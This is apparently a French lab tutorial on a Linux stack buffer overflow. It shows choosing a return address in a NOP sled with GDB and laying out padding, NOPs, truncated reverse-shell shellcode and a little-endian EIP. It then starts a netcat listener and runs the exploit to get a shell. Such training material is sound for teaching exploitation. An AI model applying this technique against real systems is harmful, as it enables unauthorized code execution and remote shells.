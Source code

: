 # Identification of the Return Address

***

### <mark style="color:red;">🔹 Identification de l’adresse de retour</mark>

Après avoir vérifié que nous contrôlons toujours l’EIP avec notre shellcode, il nous faut maintenant une **adresse mémoire** où se trouvent nos **NOPs** pour dire à l’EIP de sauter dessus.\
Cette adresse mémoire **ne doit pas contenir de bad characters** que nous avons identifiés précédemment.

***

#### <mark style="color:green;">🔹 GDB – NOPs</mark>

```bash
(gdb) x/2000xb $esp+1400
```

{% code fullWidth="true" %}
```nasm
<SNIP>
0xffffd5ec:  0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4:  0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
                                 # Fin des "\x55" ---->|  |---> NOPs
0xffffd5fc:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c:  0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
                             # |---> Shellcode
<SNIP>
```
{% endcode %}

Ici, nous devons maintenant choisir une adresse vers laquelle pointer l’EIP, et qui va exécuter les instructions **octet par octet à partir de cette adresse**.\
Dans cet exemple, nous choisissons **l’adresse `0xffffd64c`**.

<figure><img src="../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

***

#### <mark style="color:green;">🔹 Schéma du buffer (visualisation)</mark>

On a :

* `841` octets de remplissage (`\x55`)
* `100` octets de NOPs (`\x90`)
* `95` octets de shellcode
* `4` octets pour écraser l’EIP

Ainsi, le flux d’exécution saute dans la zone des NOPs, puis glisse jusqu’au shellcode.

***

#### <mark style="color:green;">🔹 Notes (calculs)</mark>

```
   Buffer   = "\x55" * (1040 - 100 - 95 - 4) = 841
   NOPs     = "\x90" * 100
   Shellcode= "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP      = "\x4c\xd6\xff\xff"
```

⚠️ Remarque : l’adresse `0xffffd64c` est écrite **à l’envers** dans le buffer (`little endian`) → `\x4c\xd6\xff\xff`.

***

#### <mark style="color:green;">🔹 Mise en place du listener Netcat</mark>

Comme notre shellcode ouvre un **reverse shell**, nous lançons `netcat` en écoute sur le port `31337` :

```bash
student@nix-bow:$ nc -nlvp 31337
```

```
Listening on [0.0.0.0] (family 0, port 31337)
```

***

#### <mark style="color:green;">🔹 Exécution de l’exploit</mark>

On exécute à nouveau notre exploit avec le shellcode et l’adresse corrigée :

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```
{% endcode %}

***

#### <mark style="color:green;">🔹 Résultat côté Netcat</mark>

```
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!
```

On teste si le shell est bien actif avec la commande `id` :

```
id
uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

✅ Nous voyons que nous avons bien une connexion depuis l’IP locale et que nous sommes dans un shell.

***

👉 Donc, en résumé :

1. On choisit une adresse **dans les NOPs**.
2. On remplace l’EIP par cette adresse (en little endian).
3. On écoute avec `netcat`.
4. On lance l’exploit → on obtient un shell.

***
